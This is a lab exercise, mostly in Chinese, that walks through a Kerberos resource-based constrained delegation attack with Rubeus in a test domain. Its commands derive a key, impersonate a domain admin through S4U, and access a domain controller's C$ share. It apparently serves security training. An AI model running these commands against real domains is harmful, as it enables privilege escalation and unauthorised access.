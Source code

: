 # Exercise 6 - Kerberos Ressource-based Constrained Delegation

## Tools

所需工具：

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)


## Theory

### RBCD 正常用法

![](2022-06-20-21-25-22.png)

### RBCD 攻擊

![](2022-06-20-21-33-55.png)

## Exercise

實驗三中，攻擊者利用NTLM Relay將AD-01的RDBC(ressource-based constrained delegation)權限委派給evilpc$，在此實驗中我們將使用已擁有的evilpc$帳密模擬RDBC的攻擊，在此案例中，evilpc$可偽冒任意的domain user的身分使用AD-01上的任意服務。

使用最高權限載入所需powershell模組

```
cd C:\attacker-tools
cat -raw .\Invoke-Rubeus.ps1 | iex
```

使用一個獨立於john的powershell session

```powershell
Invoke-Rubeus -Command "createnetonly /program:C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe /show"
```


利用evilpc$的明文密碼生成加密TGS封包的AES KEY

```powershell
Invoke-Rubeus -Command "hash /password:EvilPassword1 /domain:contoso.com /user:evilpc$"
```

利用 S4U2SELF偽冒domain admin user `Bruce Willis` (bwillis)並使用S4U2PROXY分別取得AD-01上的CIFS、HOST和RPCSS的Service Ticket，
這三個SPN分別為以下服務:
- CIFS : SMB
- HOST、RPCSS : WMI


```powershell
Invoke-Rubeus -Command "s4u /user:evilpc$ /aes256:7217DCA9120F62686DB482695281FA79A3F2836553757E4FE5DDB37DB7D638FC /impersonateuser:bwillis /msdsspn:cifs/ad-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:evilpc$ /aes256:7217DCA9120F62686DB482695281FA79A3F2836553757E4FE5DDB37DB7D638FC /impersonateuser:bwillis /msdsspn:host/ad-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:evilpc$ /aes256:7217DCA9120F62686DB482695281FA79A3F2836553757E4FE5DDB37DB7D638FC /impersonateuser:bwillis /msdsspn:rpcss/ad-01.contoso.com /ptt"
```

- 查看kerberos票證

```powershell
klist
```

- 嘗試存取SMB
```powershell
ls \\adsec-01.contoso.com\C$
```

